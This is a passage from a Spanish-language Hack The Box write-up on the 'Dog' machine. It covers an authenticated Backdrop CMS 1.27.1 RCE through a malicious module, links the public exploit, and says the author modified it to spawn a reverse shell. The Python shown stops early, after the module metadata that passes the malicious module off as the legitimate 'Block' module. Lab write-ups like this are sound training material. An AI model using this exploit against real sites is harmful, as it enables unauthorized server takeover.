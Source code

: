 ![alt text](/assets/img/writeups/hackthebox/dog_htb_s7/image-7.png)

En este punto y tras un rato explorando todas las opciones que ofrece Backdrop CMS desde el panel busqué posibles vulnerabilidades realacionadas con el CMS.

Encontramos una vulnerabilidad que nos permite ejecutar RCE mediante modulos maliciosos en el panel de administración. 

[Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/52021)

Este PoC crea un modulo malicioso en el que mediante PHP crea un shell cmd para ejecutar comandos desde un panel web pero yo lo he modificado para que se ejecute una shell reversa directamente en el sistema.

```python
import os
import time
import tarfile

def create_files():
    # Contenido del archivo .info
    info_content = """
    type = module
    name = Block
    description = Controls the visual building blocks a page is constructed
    with. Blocks are boxes of content rendered into an area, or region, of a
    web page.
    package = Layouts
    tags[] = Blocks
    tags[] = Site Architecture
    version = BACKDROP_VERSION
    backdrop = 1.x

```